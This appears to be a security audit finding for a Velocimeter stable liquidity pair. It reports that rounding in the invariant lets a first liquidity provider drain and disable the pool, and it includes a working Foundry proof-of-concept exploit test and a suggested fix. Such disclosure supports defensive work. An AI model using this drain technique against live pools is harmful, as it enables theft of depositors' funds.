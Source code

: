 Wonderful Rosewood Pheasant

High

# First liquidity provider of a stable pair can DOS the pool

## Summary
The invariant calculation of stable pools allows an attacker to drain the pool's assets due to a rounding error when the product of the pool's reserves is less than 1e18. This vulnerability enables a Denial-of-Service (DoS) attack where a malicious actor can repeatedly mint a small amount of liquidity, drain the pool, and continue this cycle until the total supply overflows.

## Vulnerability Detail
The invariant k of a stable pool is calculated as follows:
```solidity
    function _k(uint x, uint y) internal view returns (uint) {
        if (stable) {
            uint _x = x * 1e18 / decimals0;
            uint _y = y * 1e18 / decimals1;
            uint _a = (_x * _y) / 1e18;
            uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
            return _a * _b / 1e18;  // x3y+y3x >= k
        } else {
            return x * y; // xy >= k
        }
    }
```
The value of _a = (x * y ) / 1e18 = 0 due to rounding error when x*y < 1e18. The rounding error can lead to the invariant k of stable pools equals zero, and the trader can steal whatever is left in the pool.

The first liquidity provider can DOS the pair by:

   1. mint a small amount of liquidity to the pool.

   2. Steal whatever is left in the pool.
   
   3. Repeat step 1, and step 2 until the overflow of the total supply.
   
To prevent the issue of rounding error, the reserve of a pool should never go too small. The mint function which was borrowed from uniswapV2 has a minimum liquidity check of sqrt(a * b) > MINIMUM_LIQUIDITY; This, however, isn't safe enough to protect the invariant formula of stable pools.
```solidity
   uint internal constant MINIMUM_LIQUIDITY = 10**3;
   
   function mint(address to) external nonReentrant returns (uint256 liquidity) {
   // ...
          uint _amount0 = _balance0 - _reserve0;
          uint _amount1 = _balance1 - _reserve1;

          uint _totalSupply = totalSupply; // gas savings, must be defined here since totalSupply can update in _mintFee
          if (_totalSupply == 0) {
              liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
              _mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens

   // ...
   }
```
POC of an exploit extended from [Pair.t.sol](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/test/Pair.t.sol):
```solidity
contract PairTest is BaseTest {
//...
    function drainPair(Pair pair, uint256 initialFraxAmount, uint256 initialDaiAmount) internal {
        DAI.transfer(address(pair), 1);
        uint256 amount0;
        uint256 amount1;
        if (address(DAI) < address(FRAX)) {
            amount0 = 0;
            amount1 = initialFraxAmount - 1;
        } else {
            amount1 = 0;
            amount0 = initialFraxAmount - 1;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(pair), 1);
        if (address(DAI) < address(FRAX)) {
            amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount1 = 0;
        } else {
            amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount0 = 0;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
    }

    function testDestroyPair() public {
        deployPairCoins();
        deal(address(DAI), address(this), 100 ether);
        deal(address(FRAX), address(this), 100 ether);

        deployVoter();
        voter.setGovernor(msg.sender);

        Pair pair = Pair(factory.createPair(address(DAI), address(FRAX), true));
        for (uint256 i = 0; i < 10; i++) {
            DAI.transfer(address(pair), 10_000_000);
            FRAX.transfer(address(pair), 10_000_000);
            // as long as 10_000_000^2 < 1e18
            uint256 liquidity = pair.mint(address(this));
            console.log("pair:", address(pair), "liquidity:", liquidity);
            console.log("total liq:", pair.balanceOf(address(this)));
            drainPair(pair, FRAX.balanceOf(address(pair)), DAI.balanceOf(address(pair)));
            console.log("DAI balance:", DAI.balanceOf(address(pair)));
            console.log("FRAX balance:", FRAX.balanceOf(address(pair)));
            console.log(""); // this one is for empty space

            require(DAI.balanceOf(address(pair)) == 1, "should drain DAI balance");
            require(FRAX.balanceOf(address(pair)) == 2, "should drain FRAX balance");
        }
        DAI.transfer(address(pair), 1 ether);
        FRAX.transfer(address(pair), 1 ether);

        vm.expectRevert(stdError.arithmeticError);// overflow
        pair.mint(address(this));
    }
}   
```
Run the following command to execute the POC: `forge test --match-test testDestroyPair -vvv`

## Impact
The invariant calculation allows attackers to exploit stable pools, potentially draining the pool's assets and rendering them non functional. This can lead to a loss of funds and undermine the integrity of the stable pools.

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/Pair.sol#L403-L413

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/Pair.sol#L250-L269

## Tool used 
Manual Review

## Recommendation
Recommend to add two restrictions on the first lp of stable pools:

     1. Specify that the invariant _k should be larger than MINIMUM_K.
     
     2. only allows equal amounts of liquidity:
     
          The 1:1 ratio forces first lp lose money in many cases. We can prob remove it if setting a higher MINIMUM_K.

          The reason to enforce the 1:1 ratio is just a precautions check. It's when lp can contribute to max invariant k with
          minimum tokens; the issue of rounding error should be mildest.

          As for MINIMUM_K, 10e9 would be a safe one. The invariant can decrease in some cases.
```diff
     function mint(address to) external nonReentrant returns (uint256 liquidity) {
   // ...
          uint _amount0 = _balance0 - _reserve0;
          uint _amount1 = _balance1 - _reserve1;

          uint _totalSupply = totalSupply; // gas savings, must be defined here since totalSupply can update in _mintFee
          if (_totalSupply == 0) {
              liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
              _mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens
+           if (stable) {
+               require(_amount0 * 1e18 / decimals0 == _amount1 * 1e18 / decimals1, "Pair: Stable pair must be equal amounts");
+               require(_k(_amount0, _amount1) > MINIMUM_K, "Pair: Stable pair must be above minimum k");
+            }
  // ...
     }
```
